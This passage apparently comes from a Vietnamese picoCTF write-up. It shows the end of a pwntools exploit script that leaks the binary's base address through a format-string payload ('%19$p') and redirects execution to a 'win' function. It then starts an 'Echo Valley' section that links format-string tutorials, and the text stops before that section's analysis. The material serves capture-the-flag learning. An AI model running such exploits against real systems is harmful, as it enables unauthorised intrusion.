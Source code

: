 ```py
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

b*call_functions+80
c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================

def exploit():

    pl = b'%19$p'
    p.sendlineafter(b'name:', pl)

    exe.address = int(p.recvline()[:-1], 16) - 0x1441
    print(hex(exe.address))

    p.sendlineafter(b': ', hex(exe.sym.win+24))

    p.interactive()

if __name__ == '__main__':
    exploit()
```

## Echo Valley

### Challenge Description

![alt text](/img/PicoCTF/image-3.png)

### Note

Trước khi đọc write up challenge này ta cần biết khái niệm về `Format String` là gì để đọc không bị rối, ta có thể xem tại đây:

- [Source 1](https://youtu.be/b8GMf5kM2LU?si=n36HC2LxF8sdEnum)
- [Source 2](https://ir0nstone.gitbook.io/notes/binexp/stack/format-string)

### Analysis
